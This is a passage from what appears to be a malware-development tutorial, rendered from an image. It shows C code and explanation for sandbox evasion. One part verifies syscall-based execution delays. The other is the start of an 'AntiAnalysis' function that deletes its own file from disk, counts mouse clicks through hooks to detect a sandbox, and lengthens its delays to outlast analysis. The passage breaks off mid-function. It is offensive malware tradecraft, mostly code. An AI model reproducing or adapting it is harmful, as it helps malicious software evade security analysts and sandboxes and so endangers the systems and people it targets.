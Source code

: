 ```
	}

	_T1 = GetTickCount64();

	// Slept for at least 'dwMilliSeconds' ms, then 'DelayExecutionVia_NtDE' succeeded, otherwize it failed
	if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
		return FALSE;

	printf("\n\t>> _T1 - _T0 = %d \n", (DWORD)(_T1 - _T0));

	printf("[+] DONE \n");

	return TRUE;
}

```
### **AntiAnalysis Helper Function**

Create a new function, `AntiAnalysis`, to efficiently call the above functions. To use the `AntiAnalysis` function, an external variable, `g_Sys`, is required. `g_Sys` is a `VX_TABLE` structure that contains the data necessary to use syscalls in the program.

Brief points about the `AntiAnalysis` function:

* It takes `dwMilliSeconds` as an input parameter which represents the amount of time to monitor for mouse clicks.
* This function begins by calling `DeleteSelf` to delete the file from the disk.
* A while loop is then initiated, which runs the `MouseClicksLogger` through a new thread and waits for it for a period specified by `dwMilliSeconds`.
* Once the thread time is up, the hooks installed will be removed and the execution of the program will be delayed for half the value of the `i` variable; where `i` represent the value to delay execution for in minutes.
* The function then checks the total number of mouse clicks before the delay. If it is less than 5, the global mouse click monitor variable, `g_dwMouseClicks`, is reset so the next loop will start the mouse click test from the beginning.
* Incrementing the variable `i` forces the subsequent `DelayExecutionVia_NtDE` function to wait for a longer duration, creating a way of delaying execution in a sandbox.

**AntiAnalysis.c**


```
// using the 'extern' keyword, because this variable is already defined in the 'Inject.c' file
extern VX_TABLE g_Sys;

//...

BOOL AntiAnalysis(DWORD dwMilliSeconds) {

	HANDLE					hThread			= NULL;
	NTSTATUS				STATUS			= NULL;
	LARGE_INTEGER			DelayInterval	= { 0 };
	FLOAT					i			    = 1;
	LONGLONG				Delay			= NULL;

	Delay = dwMilliSeconds * 10000;
	DelayInterval.QuadPart = -Delay;

	// Self-deletion
	if (!DeleteSelf()) {
		// we dont care for the result - but you can change this if you want
	}

	// Try 10 times, after that return FALSE
```
